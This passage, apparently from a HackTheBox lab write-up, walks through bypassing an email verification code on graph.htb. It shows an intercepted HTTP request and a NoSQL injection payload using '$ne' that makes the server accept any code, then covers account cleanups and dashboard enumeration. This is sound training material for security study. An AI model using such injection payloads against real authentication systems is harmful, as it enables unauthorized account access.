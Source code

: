 ```

POST /api/verify HTTP/1.1
Host: internal-api.graph.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 40
Origin: http://internal.graph.htb
Connection: close
Referer: http://internal.graph.htb/

{"email":"0xdf@graph.htb","code":"1237"}

```

I still don’t know what is running on the server, but it’s worth checking for various kinds of injection. SQL injection doesn’t do much, but given the use of JSON structures, NoSQL might make sense.

To test, I’ll request a pin, and then send a random pin with Burp intercept enabled. I’ll modify the request to:

```

{"email":"0xdf@graph.htb","code":{"$ne":"00000"}}

```

This is tricking the system into checking if the code is not “00000”, which is true, so the resulting page is:

![image-20220727120630283](https://0xdfimages.gitlab.io/img/image-20220727120630283.png)

I’ll create an account, and log in.

#### Fighting with Cleanups

The accounts in this portal seem to be cleared every 30 minutes for some reason, so it’s important to note that things will kind of stop working, but not completely log out once that happens. I got all three requests to create an account (`/code`, `/verify`, and `/register`) into Repeater, so when this happened I can just submit them in order and then log in again:

![image-20220727150822866](https://0xdfimages.gitlab.io/img/image-20220727150822866.png)

It’s also important to note that when my account is deleted, not everything stops working, but some parts do. For example, there’s no messages in the inbox any more.

#### Enumerate Page

The page presents a dashboard without much on it:

![image-20220727121727823](https://0xdfimages.gitlab.io/img/image-20220727121727823.png)

Of all the links, only “Dashboard”, Inbox”, “Profile”, and “Tasks And Events” work. The rest just lead back to the login page.
